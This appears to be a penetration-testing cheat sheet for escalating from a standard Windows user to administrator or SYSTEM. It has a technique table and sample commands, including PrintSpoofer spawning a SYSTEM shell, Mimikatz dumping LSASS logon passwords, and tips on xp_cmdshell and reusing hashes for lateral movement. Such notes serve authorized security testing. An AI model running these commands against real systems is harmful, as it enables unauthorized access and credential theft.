

_Goal: Elevate privileges from a standard domain user or local user to administrator or SYSTEM level._

---

### **Objectives**

- Escalate from a low-privileged user to SYSTEM or local admin
    
- Identify misconfigurations, credentials, or service abuse opportunities
    
- Prepare for lateral movement or credential dumping
    

---




  

---

### **Techniques and Tools**

|**Task**|**Tool/Command**|**Notes**|
|---|---|---|
|UAC Bypass|Invoke-BypassUAC, fodhelper, eventvwr tricks|Requires medium integrity token|
|Unquoted Service Paths|wmic service get name,displayname,pathname,startmode|Escalate if write access exists in service path|
|AlwaysInstallElevated|reg query HKCU\Software\Policies\Microsoft\Windows\Installer|If set to 1, MSI files can install as SYSTEM|
|Scheduled Tasks Abuse|schtasks, Get-ScheduledTask|Find misconfigured or writable scheduled tasks|
|DLL Hijacking|Procmon, Process Explorer|Load malicious DLL into privileged service|
|Credential Files|Search for .kdbx, .xml, .config, unattend.xml|Look for hardcoded or plaintext passwords|
|Token Manipulation|whoami /priv, mimikatz token::elevate|Impersonate available tokens or escalate with SeImpersonate|
|Print Spooler Exploits|PrintSpoofer.exe, SpoolSample|Abuse SeImpersonatePrivilege to elevate to SYSTEM|
|Service Permissions|accesschk.exe, Get-Service|Look for services with Start, ChangeConfig permission|

  

---

### **Example: PrintSpoofer to SYSTEM**

```
PrintSpoofer64.exe -i -c powershell.exe
```

  

---

### **Example: Unquoted Service Path Discovery**

```
wmic service get name,displayname,pathname,startmode | findstr /i "auto"
```

  

---

### **Example: Dumping LSASS with Mimikatz**

```
sekurlsa::logonpasswords
```

  

---

### **Pro Tips**

- If on a SQL Server, try enabling xp_cmdshell to execute commands as the SQL service account
    
- Use SharpUp.exe or Seatbelt.exe for automated checks
    
- Hashes from lsass or SAM enable lateral movement or DA impersonation
    
- Check for dropped tools or DLLs in C:\ProgramData, C:\Temp, or Public\Documents
    
